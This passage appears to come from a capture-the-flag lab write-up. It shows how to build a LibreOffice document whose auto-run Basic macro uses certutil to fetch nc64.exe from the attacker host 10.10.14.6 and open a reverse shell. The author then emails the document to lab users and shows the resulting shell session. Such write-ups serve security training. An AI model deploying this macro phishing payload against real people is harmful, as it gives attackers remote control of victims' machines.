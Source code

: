 On logging in, there's a checkbox to use the "light version" of OWA.
Clicking that will provide a much smoother experience.

#### Create Doc

I'll open up Libre Writer and put some dummy text into the page:

![](/img/image-20220425172125054.png)

I'll save the document.

Clicking "Tools" \> "Macros" \> "Edit Macros..." open the macro editor.

At first, there's no module in the "Standard" folder in the document.
"Tools" \> "Organize Macros" \> "Basic..." will open another dialog, and
the "New" button will let me create one:

![](/img/image-20220425173353785.png)

Back in the editor, I'll go to that new Module 1 and find it comes with
a `main` function. I'll change that to `OnLoad` just for my own reminder
of what it's doing. I can call shell commands using `shell()`.

I'll also need to go to "Tools" \> "Customize..." to get to the document
customize dialoag. In there, I'll go to the "Events" tab, and click the
"Open Document" event, then the "Assign Macro..." button. I'll associate
the `OnLoad` macro with this even so it will run on open:

![](/img/image-20220428085349342.png)

#### Payload #1 - certutil and nc.exe

I'll set my macro to:



    Sub OnLoad

            shell("cmd /c certutil -urlcache -split -f http://10.10.14.6/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd 10.10.14.6 443")

    End Sub



I'll reply all to the TPS email, and include another user, Raziel who
shows up in the list on the left:

![](/img/image-20220425174332299.png)

After a few minutes (many minutes, I'll look at the automation in
[Beyond Root](#automation-analysis)), there's a hit at my webserver for
`nc64.exe`, and then a shell:



    oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.71.
    Ncat: Connection from 10.10.10.71:37178.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
